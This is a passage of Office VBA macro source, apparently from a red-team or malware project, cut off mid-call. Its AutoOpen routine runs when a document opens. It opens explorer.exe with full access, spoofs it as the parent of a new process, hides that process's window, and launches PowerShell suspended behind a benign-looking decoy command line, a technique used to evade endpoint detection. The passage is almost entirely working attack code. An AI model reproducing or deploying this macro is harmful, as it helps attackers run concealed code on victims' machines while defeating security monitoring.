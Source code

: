 ```csharp
            continueSearching = Process32Next(snapshot, pEntry)
        End If
    Loop While continueSearching
End Function

Public Function convertStr(ByVal str As String) As Byte()
    Dim i, j As Integer
    Dim result(400) As Byte
    j = 0
    For i = 1 To Len(str):
        result(j) = Asc(Mid(str, i, 1))
        result(j + 1) = &H0
        j = j + 2
    Next
    
    convertStr = result
    
End Function

Sub AutoOpen()
    Dim pi As PROCESS_INFORMATION
    Dim si As STARTUPINFOEX
    Dim nullStr As String
    Dim pid, result As Integer
    Dim threadAttribSize As Integer
    Dim parentHandle As LongPtr
    Dim originalCli As String
    
    originalCli = "powershell.exe -NoExit -c Get-Service -DisplayName '*network*' | Where-Object { $_.Status -eq 'Running' } | Sort-Object DisplayName"
    
    ' Get a handle on the process to be used as a parent
    pid = getPidByName("explorer.exe")
    parentHandle = OpenProcess(PROCESS_ALL_ACCESS, False, pid)

    ' Initialize process attribute list
    result = InitializeProcThreadAttributeList(ByVal 0&, 1, 0, threadAttribSize)
    si.lpAttributelist = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, threadAttribSize)
    result = InitializeProcThreadAttributeList(si.lpAttributelist, 1, 0, threadAttribSize)

    ' Set the parent to be our previous handle
    result = UpdateProcThreadAttribute(si.lpAttributelist, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, parentHandle, Len(parentHandle), ByVal 0&, ByVal 0&)

    ' Set the size of cb (see https://docs.microsoft.com/en-us/windows/desktop/api/winbase/ns-winbase-_startupinfoexa#remarks)
    si.STARTUPINFO.cb = LenB(si)
    
    ' Hide new process window
    si.STARTUPINFO.dwFlags = 1
    si.STARTUPINFO.wShowWindow = SW_HIDE

    result = CreateProcess( _
        nullStr, _
        originalCli, _
        ByVal 0&, _
        ByVal 0&, _
        1&, _
        &H80014, _
        ByVal 0&, _
        nullStr, _
        VarPtr(si), _
        pi _
```